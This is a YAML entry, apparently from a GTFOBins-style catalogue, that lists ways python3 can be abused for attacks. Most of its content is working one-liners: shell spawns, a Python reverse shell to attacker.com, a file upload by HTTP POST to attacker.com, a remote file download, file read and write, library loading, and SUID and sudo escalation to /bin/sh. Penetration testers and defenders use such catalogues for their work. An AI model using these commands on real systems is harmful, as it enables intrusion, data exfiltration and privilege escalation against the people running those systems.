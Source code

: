 ```yaml
---
functions:
  execute-interactive:
  - code: python3 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
  - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on
      the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      python3 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
  - description: Send local file via "d" parameter of a HTTP POST request. Run an
      HTTP service on the attacker box to collect the file.
    code: |
      export URL=http://attacker.com/
      export LFILE=file_to_send
      python3 -c 'import urllib.request as r,urllib.parse as u;from os import environ as e; r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
  - description: Serve files in the local folder running an HTTP server.
    code: |
      LPORT=8888
      python3 -m http.server $LPORT
  download:
  - description: Fetch a remote file via HTTP GET request.
    code: |
      export URL=http://attacker.com/file_to_get
      export LFILE=file_to_save
      python3 -c 'import urllib.request as u;from os import environ as e; u.urlretrieve (e["URL"], e["LFILE"])'
  file-write:
  - code: python3 -c 'open("file_to_write","w+").write("data")'
  file-read:
  - code: python3 -c 'open("file_to_read").read()'
  load-library:
  - code: python3 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
  - code: ./python3 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
  - code: sudo python3 -c 'import os; os.system("/bin/sh")'
---
```

